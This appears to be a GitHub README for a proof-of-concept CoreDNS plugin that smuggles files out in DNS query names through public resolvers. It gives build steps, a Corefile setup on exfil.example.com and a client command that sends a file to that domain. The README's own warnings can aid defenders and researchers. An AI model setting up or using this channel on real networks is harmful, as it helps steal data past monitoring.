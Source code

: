 # exfiltration plugin for coredns

This plugin is a proof of concept for data exfiltration via public DNS infrastructure.

It works by splitting the file into chunks and sending DNS-Requests for containing the data
encoded into the requested domain names. The encoding is needlessly complex, the requests will
immediatly raise alarm should any human ever look at them.

## Disclaimer and limitations

You should never actually use this. The data is transmitted unencrypted via a chain of public servers,
that are likely to cache part or all of the data.

There is no feedback to the client, the client has no way to know if the file was transferred successfully.
Though I never had a problem, because usually every chunk will be transmitted twice (IPv4 & IPv6).

## Installation

Clone the coredns repository

    git clone https://github.com/coredns/coredns.git

Add the plugin to the `plugin.cfg`, I recommend to put it after the `file:file` line.

    exfil:github.com/jpicht/exfil/lib/exfil

Build and deploy the server. A very basic example client is contained in the cmd/client subdirectory.

## Server configuration

Add the plugin to the Corefile

    exfil.example.com. {
        exfil exfil.example.com. /srv/exfil
    }

The syntax is:

    exfil $DOMAIN $PATH

## Usage

    client <domain> <filename>
